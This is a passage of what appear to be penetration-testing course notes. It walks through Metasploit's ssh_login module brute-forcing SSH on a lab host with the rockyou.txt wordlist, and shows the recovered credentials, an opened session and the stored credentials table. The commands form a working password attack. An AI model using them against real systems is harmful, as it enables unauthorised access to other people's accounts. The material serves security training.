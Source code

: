 There are various options to set in this module
+ Fortunately, Metasploit already set several for us
+ As with Hydra's options, we can set a single password and user, or provide files containing users, passwords, or both

As in the example in _Password Attacks_, we assume we already identified the username _george_
+ We can specify **rockyou.txt** for the option **PASS_FILE**
+ Finally, we set **RHOSTS** to **192.168.50.201** and **RPORT** to **2222**:
```
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
PASS_FILE => /usr/share/wordlists/rockyou.txt

msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME george
USERNAME => george

msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.50.201
RHOSTS => 192.168.50.201

msf6 auxiliary(scanner/ssh/ssh_login) > set RPORT 2222
RPORT => 2222
```

Now, all required options are set and we can launch the module with **run**:
```
msf6 auxiliary(scanner/ssh/ssh_login) > run

[*] 192.168.50.201:2222 - Starting bruteforce
[+] 192.168.50.201:2222 - Success: 'george:chocolate' 'uid=1001(george) gid=1001(george) groups=1001(george) Linux brute 5.15.0-37-generic #39-Ubuntu SMP Wed Jun 1 19:16:45 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (192.168.119.2:38329 -> 192.168.50.201:2222) at 2022-07-28 07:22:05 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
+ By performing a dictionary attack with the activated auxiliary module, Metasploit could determine the correct password as shown above

Unlike Hydra, Metasploit not only displays the valid credentials, but also opens a _session_
+ We'll explore what sessions are and how we can use them in the following Learning Unit, but for now, we should understand that Metasploit already provides us with interactive access to the target automatically

As with the vulnerability displayed by the vulns command, we can display all valid credentials we gathered up to this point by entering **`creds`**:
```
msf6 auxiliary(scanner/ssh/ssh_login) > creds
Credentials
===========

host            origin          service       public  private    realm  private_type  JtR Format
----            ------          -------       ------  -------    -----  ------------  ----------
192.168.50.201  192.168.50.201  2222/tcp (ssh)  george  chocolate         Password  
```
+ Metasploit stores the valid credentials automatically for us in the database
+ It also shows us the related host, the service, and the type of credential
